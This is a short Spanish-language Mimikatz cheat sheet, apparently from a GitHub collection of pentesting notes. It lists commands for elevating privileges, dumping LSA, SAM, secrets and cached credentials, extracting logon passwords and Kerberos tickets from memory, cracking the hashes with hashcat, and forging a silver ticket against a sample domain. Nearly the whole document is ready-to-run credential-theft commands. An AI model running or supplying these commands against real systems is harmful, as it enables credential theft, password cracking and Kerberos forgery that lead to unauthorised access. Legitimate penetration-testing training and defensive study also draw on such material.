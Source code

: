 # Mimikatz Cheat Sheet

#### Correr como Administrador
```
mimikatz# token::elevate
mimikatz# privilege::debug
```

#### Dumpear Hashes
```
mimikatz# lsadump::lsa /patch

hashcat -m 1000 <hash> rockyou.txt
```

#### Password dumping (Para todos los usuarios que iniciaron sesión en el equipo local) - Extraer contraseñas del sistema
```
mimikatz# sekurlsa::logonPasswords /full

Nota: Tener habilitado solamente el privilege::debug
```

#### Password en memoria
```
mimikatz# sekurlsa::tickets
```

#### sam dumping
```
mimikatz# lsadump::sam

Nota: Tener habilitado solamente el privilege::debug y token::elevate
```

#### secrets dumping
```
mimikatz# lsadump::secrets

Nota: Tener habilitado solamente el privilege::debug
```

#### cache dumping
```
mimikatz# lsadump::cache

El valor lo metemos en un archivo con el formato:
$DCC2$10240#USER#VALOR-MsCacheV2

Crackeamos:
hashcat -m 2100 hash-web_svc /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Crear Silver Ticket (SPN)
```
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:<HASH-NTM> /user:<ALGUN-USER-DEL-DOMAIN>

Luego validamos en Windows si esta el Silver ticket:
PS> klist
PS> iwr -UseDefaultCredentials http://web04
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
